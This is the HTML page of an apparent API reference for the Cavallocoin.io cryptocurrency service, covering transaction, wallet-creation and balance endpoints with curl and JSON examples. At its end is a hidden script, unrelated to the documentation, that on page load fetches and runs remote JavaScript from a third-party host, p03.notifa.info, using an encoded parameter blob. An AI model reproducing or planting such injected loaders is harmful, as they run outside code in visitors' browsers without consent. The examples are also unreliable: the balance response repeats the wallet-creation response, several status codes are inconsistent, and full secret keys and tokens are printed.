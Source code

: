 # documentasy_cavallo


<h1 id="introduction">Introduction</h1>
<a href="javascript:" id="return-to-top"><i class="fa fa-hand-o-up" aria-hidden="true"></i></a>


<h3 id="introduction">Introduction</h3>

<p>Welcome to Cavallocoin.io API documentation! Cavallocoin is a simple,accessed over HTTP or HTTPS from the cavallocoin.io domain. </p>



<h1 id="integrasi">Integration</h1>

<h3 id="tahapan-integrasi">How to make integrate :</h3>

<ol>
<li>Develop (make) modul interface on your system (member) that contains of sender functions transaction request  <strong>to environment development</strong> system Cavallocoin.io based on spesification.</li>
</ol>

<h2 id="development">Development</h2>

<p>We dedicate this environmental development to ease you doing integration modul your H2H system to Cavallocoin.io. </p>

<p>In this phase, please make an interface modul on your system (member) who has to send the request to URL API in Cavallocoin.io which appropriates with the spesification.</p>

<h3 id="target-url-api-development">Target URL API Development</h3>

<table><thead>
<tr>
<th>Format</th>
<th>Target URL</th>
</tr>
</thead><tbody>
<tr>
<td>JSON</td>
<td><code class="prettyprint">POST https://www.cavallocoin.io/api</code></td>
</tr>
</tbody></table>

<h1 id="referensi-api">API Referention</h1>

<p>Please use message format which is convenient for your (member), there is some format that is available, such as : JSON. </p>


<p>You can check your current limits and usage via a POST on the following endpoint, outside of our normal coin/chain pattern:</p>

<p> Generally, in the option JSON format , every transaction request is sent through HTTPS protocol <code class="prettyprint">HTTPS</code> to target URL API cavallocoin.io with condition: </p>

<ol>
<li>header <code>Content-Type: application/json</code>  to JSON format.</li>
<li>contains to contents request according to API cavallocoin.io spesification.</li>
<li>And set <code>Authorization: Bearer $api_token</code>.</li>
</ol>

          <h2 id="make-transaction">Make Transaction</h2>

<p>Making the latest transaction.<br>
first you need to provide the input password, wallet, and amount. </p>

<blockquote>
<p>Make Transaction Request</p>
</blockquote>
<pre class="highlight json"><code><span class="p">curl https://www.cavallocoin.io/api/transac</span>
<span class="p">{</span><span class="w">
  </span><span class="nt">"password"</span><span class="p">:</span><span class="w"> </span><span class="s2">"YOUR_PASSWORD"</span><span class="p">,</span><span class="w">
  </span><span class="nt">"address"</span><span class="p">:</span><span class="w"> </span><span class="s2">"MEMBER_ADDRESS"</span><span class="p">,</span><span class="w">
  </span><span class="nt">"amount"</span><span class="p">:</span><span class="w"> </span><span class="s2">"MEMBER_AMOUNT"</span><span class="p">,</span><span class="w">
</span><span class="p">}</span><span class="w">
</span></code></pre>
<p><strong>Request Parameters</strong></p>

 <table><thead>
              <tr>
              <th>Parameters</th>
              <th>Value</th>
              <th>Description</th>
              </tr>
              </thead><tbody>
              <tr>
              <td>password</td>
              <td>YOUR_PASSWORD</code></td>
              <td>your password</td>
              </tr>
              <tr>
              <td>address</td>
              <td>MEMBER_ADDRESS</td>
              <td>member address.</td>
              </tr>
              <tr>
              <td>amount</td>
              <td>MEMBER_AMOUNT</td>
              <td>amount member.</td>
              </tr>

              </tbody></table>


<blockquote>
<p>Make Transaction Response</p>
</blockquote>

<pre class="highlight json"><code><span class="p">{</span><span class="w">
  </span><span class="nt">"success"</span><span class="p">:</span><span class="w"> </span><span class="s2">"true"</span><span class="p">,</span><span class="w">
  </span><span class="nt">"data"</span><span class="p">:</span><span class="w"><span class="p">{</span><span class="w">
  <span class="nt">"message"</span><span class="p">:</span> </span><span class="s2">"Your transaction has ben success"</span><span class="p">,</span><span class="w"><span class="w">
  <span class="nt">"balance"</span><span class="p">:</span> </span><span class="s2">"0.000000000"</span><span class="p">,<span class="w"></span><span class="p">
  </span><span class="nt">"block"</span><span class="p">:</span><span class="w"><span class="p">{</span>
  <span class="nt">"hash"</span><span class="p">:</span><span class="w"> </span><span class="s2">"e1ec83047d0beb49ba9e2f480f206386869e81dbf461ee1c15bc7592e003453a"</span><span class="p">,</span>
  <span class="nt">"sender_id"</span><span class="p">:</span><span class="w"> </span><span class="s2">"5a16c59a402c5a04a84ea3be"</span><span class="p">,</span>
  <span class="nt">"receiver_id"</span><span class="p">:</span><span class="w"> </span><span class="s2">"5aa8b74e402c5a4ebf2cf2a2"</span><span class="p">,</span>
  <span class="nt">"data"</span><span class="p">:</span><span class="w"> </span><span class="s2">"5fd85baed63db0722d44d7063bbc154daedc38ee304e22cc23fe3bacffe9ca6a"</span><span class="p">,</span>
  <span class="nt">"value"</span><span class="p">:</span><span class="w"> </span><span class="s2">"1.0000000000"</span><span class="p">,</span>
  <span class="nt">"created_at"</span><span class="p">:</span><span class="w"> </span><span class="s2">"2018-05-01 11:20:17"</span><span class="p">,</span>
  <span class="nt">"_id"</span><span class="p">:</span><span class="w"> </span><span class="s2">"5ae83151402c5a17653f06e3"</span><span class="w">
</span><span class="p">}</span><span class="w"><span class="p">}</span>
<span class="p">}</span>
</span></code></pre>

          <h2 id="create-wallet">Create Wallet</h2>

<p></p>

<blockquote>
<p>Create Wallet Request</p>
</blockquote>
<pre class="highlight json"><code><span class="p">curl https://www.cavallocoin.io/api/new</span><br>
<span class="p">{</span><span class="w">
</span><span class="nt">"password"</span><span class="p">:</span><span class="w"> </span><span class="s2">"YOUR_PASSWORD"</span>
<span class="p">}</span><span class="w">
</span></code></pre> 
<p><strong>Parameters Request</strong></p>

<table><thead>
              <tr>
              <th>Parameters</th>
              <th>Value</th>
              <th>Description</th>
              </tr>
              </thead><tbody>
              <tr>
              <td>password</td>
              <td>YOUR_PASSWORD</code></td>
              <td>your password</td>
              </tr>

</tbody></table>

<!-- <p>Nama kode produk untuk melakukan pengecekan harga :
<br /><br />"TELKOMSEL", "INDOSAT", "XLAXIATA", "SMARTFREN", "THREE", "AXIS",
<br />"PULSAPASCA", "PLN", "PDAM", "TV", "TELKOM", "FINANCE", "ASURANSI",
<br />"CC"</p> -->

<blockquote>
<p>Create Wallet Response</p>
</blockquote>
<pre class="highlight json"><code><span class="p">curl https://www.cavallocoin.io/api/new</span>
<span class="p">{</span><span class="w">
</span><span class="nt">"success"</span><span class="p">:</span><span class="w"> </span><span class="s2">"true"</span><span class="p">,</span><span class="w">
</span><span class="nt">"data"</span><span class="p">:</span><span class="p">{</span><br>
 <span class="nt">"message"</span><span class="p">:</span> <span class="s2">"Account created"</span><span>,</span><span class="w">
 </span>
 <span class="nt">"detail"</span><span class="p">:</span><span class="p">{</span>
 <br><span class="w"> </span>
 <span class="nt"> "wallet"</span><span class="p">:</span><span class="s2">"SYrOykTM6LEL3jhCxQEXrqXMO8lhVMicoYu9owGp46YLn8PaGVNOTB5ekz54pxPGk6VAgkX9cGiYR"</span>,
 <span class="nt"> "balance"</span><span class="p">:</span><span class="s2">"0"</span>,
 <span class="nt"> "secret_key"</span><span class="p">:</span><span class="s2">"645716fb88007616783d818c9b2a7d616fc97154932757357e3e79a70363c5ee673ffce2d4453fd3de8e817eb7aa86d9b79339e850aa35c26e387c427e183485"</span>,
 <span class="nt"> "id"</span><span class="p">:</span><span class="s2">"5ae825d8402c5a230812ea73"</span>,
 <span class="nt"> "token"</span><span class="p">:</span><span class="s2">"010fa85d20fa4e586254c9a386a57a9f2ce1937ae904d22f7865aa5f09aea7626de2b22897ada7f5e4843ecdee0135281733807686dd8b3bad7efeae4e3cabd3"</span><span class="w"></span><span class="p">}</span>
 <span class="p">}</span>
 <span class="p">}</span>
 <span class="w"></span></code></pre>


          <h2 id="check-ballance">Check Balance</h2>

<p></p>

<blockquote>
<p>Check Balance Request</p>
</blockquote>
<pre class="highlight json"><code><span class="p">curl https://www.cavallocoin.io/api/balance</span>
<span class="p">{</span><span class="w">
  </span><span class="nt">"password"</span><span class="p">:</span><span class="w"> </span><span class="s2">"YOUR_PASSWORD"</span><span class="p">,</span><span class="w">
  </span><span class="nt">"key"</span><span class="p">:</span><span class="w"> </span><span class="s2">"YOUR_SECRET_KEY"</span><span class="p"></span><span class="w">
</span><span class="p">}</span><span class="w">
</span></code></pre>
<p><strong>Parameters Request</strong></p>

<table><thead>
              <tr>
              <th>Parameters</th>
              <th>Value</th>
              <th>Description</th>
              </tr>
              </thead><tbody>
              <tr>
              <td>password</td>
              <td>YOUR_PASSWORD</code></td>
              <td>your password</td>
              </tr>
              <tr>
              <td>key</td>
              <td>SECRET_KEY</code></td>
              <td>your key</td>
              </tr>

              </tbody></table>


<blockquote>
<p>Check Balance Response</p>
</blockquote>
<pre class="highlight json"><code><span class="p">curl https://www.cavallocoin.io/api/new</span>
<span class="p">{</span><span class="w">
</span><span class="nt">"success"</span><span class="p">:</span><span class="w"> </span><span class="s2">"true"</span><span class="p">,</span><span class="w">
</span><span class="nt">"data"</span><span class="p">:</span><span class="p">{</span><br>
 <span class="nt">"message"</span><span class="p">:</span> <span class="s2">"Account created"</span><span>,</span><span class="w">
 </span>
 <span class="nt">"detail"</span><span class="p">:</span><span class="p">{</span>
 <br><span class="w"> </span>
 <span class="nt"> "wallet"</span><span class="p">:</span><span class="s2">"SYrOykTM6LEL3jhCxQEXrqXMO8lhVMicoYu9owGp46YLn8PaGVNOTB5ekz54pxPGk6VAgkX9cGiYR"</span>,
 <span class="nt"> "balance"</span><span class="p">:</span><span class="s2">"0"</span>,
 <span class="nt"> "secret_key"</span><span class="p">:</span><span class="s2">"645716fb88007616783d818c9b2a7d616fc97154932757357e3e79a70363c5ee673ffce2d4453fd3de8e817eb7aa86d9b79339e850aa35c26e387c427e183485"</span>,
 <span class="nt"> "id"</span><span class="p">:</span><span class="s2">"5ae825d8402c5a230812ea73"</span>,
 <span class="nt"> "token"</span><span class="p">:</span><span class="s2">"010fa85d20fa4e586254c9a386a57a9f2ce1937ae904d22f7865aa5f09aea7626de2b22897ada7f5e4843ecdee0135281733807686dd8b3bad7efeae4e3cabd3"</span><span class="w"></span><span class="p">}</span>
 <span class="p">}</span>
 <span class="p">}</span>
 <span class="w"></span></code></pre>

          

<h1 id="response-code">Response Code</h1>

<p>Response Code is a respond code that is given by cavallocoin.io system as status from every transaction request which is sent by member system (CA).</p>

<p>Based on the outline, the following are response code less:</p>

<table><thead>
<tr>
<th>Status Code</th>
<th>Description</th>
</tr>
</thead><tbody>

<tr>
<td>200</td>
<td>Your transaction has been success</td>
</tr>

<tr>
<td>200</td>
<td>Account created</td>
</tr>

<tr>
<td>500</td>
<td>Unauthenticated</td>
</tr>

<tr>
<td>500</td>
<td>The given data was invalid.</td>
</tr>

<tr>
<td>200</td>
<td>Something wrong.</td>
</tr>

<tr>
<td>405</td>
<td>method not allowed.</td>
</tr>

<tr>
<td>404</td>
<td>page not found.</td>
</tr>


</tbody></table>

<aside class="notice"><span class="glyphicon glyphicon-info-sign"></span>The list of code response can change along with the increase of
    product scope which is supported by cavallocoin.co.</aside>

      </div>
      <div class="dark-box">
          <div class="lang-selector">
                <a href="#" data-language-name="json">json</a>
          </div>
      </div>
    </div>
	
  <script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582NzYpoUazw5mSeBV3jRvGwDUsMTO%2fECMDQTM8cG%2buTH%2fXtVevK%2f3YmFr3rprIM8ci2%2fvHRtzVAl49byx3IsHpiEnh7SWAv10wD%2b1%2fXQeJFubw71%2bZ1H9he8p32BR26%2bAOr38InNfqACvWlooZnSrvOlL63MwTBJXkV2KeUN4D4gpRW6HyegMFQOSZhkv5DSrGCXQajm0U7yq4rZF2LTa2meNg6hkrx6Lj%2bL5i0lnnUBrzX%2bnS5GbM7AcoIzp9WvxQGwuwRZD28BH0whaCA0uqCZTyc35TCvFHgOS86dfk%2f%2bkZsEyYdtUGRLAAW36Fb4%2bNzt%2fAM5tW6Xss0xYNhthn%2fB8cQtJO0hR0%2fV1vYyY2agsfVwgmd19RUNfueeax%2fyqKNKdVZqPS7MSIOpq1oHXMTiRRktJM2sZHXh7RdB9ckpja394qeQwojAanaTQy5RHGH%2bi%2f5AciLy5njJUFj%2foRRm%2fLySawZCROKwIeAmzLtUL" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};

 </script>
 <script type="text/javascript">
    $(window).scroll(function() {
    if ($(this).scrollTop() >= 50) {        // If page is scrolled more than 50px
        $('#return-to-top').fadeIn(200);    // Fade in the arrow
    } else {
        $('#return-to-top').fadeOut(200);   // Else fade out the arrow
    }
});
$('#return-to-top').click(function() {      // When arrow is clicked
    $('body,html').animate({
        scrollTop : 0                       // Scroll to top of body
    }, 1000);
});
 </script></body>
</html>

